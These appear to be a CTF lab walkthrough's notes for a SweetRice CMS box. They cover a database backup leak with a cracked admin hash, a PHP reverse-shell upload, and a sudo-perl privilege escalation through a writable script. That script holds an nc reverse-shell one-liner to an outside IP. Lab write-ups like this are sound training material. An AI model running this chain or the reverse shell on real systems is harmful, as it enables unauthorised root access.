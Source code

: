 CMS - SweetRice, php, js
version 1.5.1 

http://10.10.0.12/content/inc/mysql_backup/ - mysql db info leak, php/webapps/40718.txt
db creds:
	admin or manager:42f749ade7f9e195bf475f37a44cafcb cracked - Password123 md5


ports:
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
paths:
	

[2K/content              (Status: 301) [Size: 310] [--> http://10.10.0.12/content/]

[2K/content              (Status: 301) [Size: 310] [--> http://10.10.0.12/content/]

[2K/server-status        (Status: 403) [Size: 275]

vulnerable to file uploading on a admin panel on /content/as admin:Password123
upload php rev shell in ads section, open file /content/inc/ads = shell access

cat mysql_login.txt
rice:randompass
didnt use mysql cred, too dumb to access database


sudo -l --- (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
this means sudo wont ask for password only if you run this as a whole, including both paths/whole line, 
but will ask for pass if you try just /usr/bin/perl or other one.

the file backup.pl contains:
	#!/usr/bin/perl

	system("sh", "/etc/copy.sh");

notice the file /etc/copy.sh you can cat out the file and also echo stuff into it with redirection >.

the copy.sh contains:
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
if we deconstruct what this shell file does removes some tmp files; cats out /bin/sh | and pipes into nc on some ip and port 5554.
we can modify this shell file with our ip as target and setup a listner on the 5554 port.
so copy the contents of copy.sh replace ip with your ip, and echo 'new_command' > copy.sh
and then run the command you can run as sudo, sudo /usr/bin/perl /home/itguy/backup.pl and you got a root shell.

user.txt is in /home/itguy
root.txt is in /root

paths:
	
[2K/content              (Status: 301) [Size: 310] [--> http://10.10.0.12/content/]

[2K/content              (Status: 301) [Size: 310] [--> http://10.10.0.12/content/]

[2K/server-status        (Status: 403) [Size: 275]
ports:
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
